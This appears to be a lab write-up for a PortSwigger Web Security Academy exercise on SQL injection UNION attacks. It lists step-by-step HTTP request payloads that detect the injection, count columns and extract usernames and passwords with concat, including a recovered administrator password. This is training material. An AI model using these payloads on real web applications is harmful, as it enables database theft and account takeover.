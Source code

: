 # [Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `p`assword`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## tools

same as [lab 5](./5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md)

## manual

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns

3. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+*+FROM+users-- HTTP/1.1
    ```

    - result: `HTTP/1.1 500 Internal Server Error`

4. Check data type:

    ```http
    GET /filter?category=%27UNION+SELECT+'a',NULL+-- HTTP/1.1
    ```

    - => 500

    ```http
    GET /filter?category=%27UNION+SELECT+NULL,'a'+-- HTTP/1.1
    ```

    - => 200
    - => only second column containing text

5. Exploit again using concat function

    ```http
    GET /filter?category='UNION+SELECT+NULL,concat(username,',',password)+FROM+users-- HTTP/1.1
    ```

    - result: `administrator,4fe7szltk7gyvmthhhqw`
6. Login to admin account => Lab Solved
